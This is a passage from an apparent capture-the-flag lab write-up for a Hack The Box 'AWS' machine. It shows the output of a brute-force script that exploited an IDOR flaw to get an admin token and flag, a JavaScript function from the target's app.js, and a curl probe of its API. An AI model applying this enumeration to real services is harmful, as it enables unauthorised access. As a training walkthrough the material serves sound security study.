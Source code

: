 ![](images/Pasted%20image%2020250801162507.png)

After running the brute script, we can get the result
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ python3 brute.py 
[+] uuid: 955
{
  "flag": "AWS{S1mPl3_iD0R_4_4dm1N}", 
  "token": "98d7f87065c5242ef5d3f6973720293ec58e434281e8195bef26354a6f0e931a1fd50a72ebfc8ead820cb38daca218d771d381259fd5d1a050b6620d1066022a", 
  "username": "admin", 
  "uuid": "955"
}
```

# Inspector
Let's come back to our clear `app.js`, `GetLogData` function get from another domain `logs.amzcorp.local`
```
function GetLogData() {
    var log_table = document.getElementById('log_table');
    const xhr = new XMLHttpRequest();

    xhr.open('GET', '/api/v4/logs/get_logs');
    xhr.responseType = 'json';
    xhr.onload = function (e) {
        if (this.status == 200) {
            log_table.append(this.response['log']);
        }
    };
    xhr.send();
}
```

After searching for more API routes, we also found status
```           
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ curl -s http://jobs.amzcorp.local/api/v4/status | jq  
{
  "site_status": [
    {
      "site": "amzcorp.local",
      "status": "OK"
    },
    {
      "site": "jobs.amzcorp.local",
      "status": "OK"
    },
    {
```